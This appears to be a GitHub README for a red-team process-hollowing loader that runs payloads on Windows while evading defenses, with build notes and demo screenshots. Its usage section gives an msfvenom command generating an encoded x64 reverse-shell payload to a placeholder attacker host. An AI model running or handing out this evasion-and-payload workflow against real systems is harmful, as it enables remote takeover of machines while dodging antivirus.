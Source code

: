 # Process-Hollowing-RedTeamOps
## Red Team Operation's Defense Evasion Technique for executing without raising flags on Target System.

### Credit of these Images goes to to their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-but release if you're bit confused about compiling manually**

We suggest to use directly compiled executables as in some situations it depends on your compiler.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc** 

**For 32-bit - Mingw for Windows**

# **Made with ♥️ in :india:!!** 

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for required Windows API 
2. Process-Hollowing Technique working
3. Deep-imagination 
4. Error-handling
5. Programming Skills
6. Time
7. Defeating Faliures

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# How to use

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST<IP> LPORT<PORT> -f raw -i <iterations as you want for evasion> -e <encoder you want to use> > shell.bin - **x64-Bit**
  
 ***2. Obfuscation is mainly your work to do as per your operations. The other one's? - WE'LL HANDLE!!!***
  
  
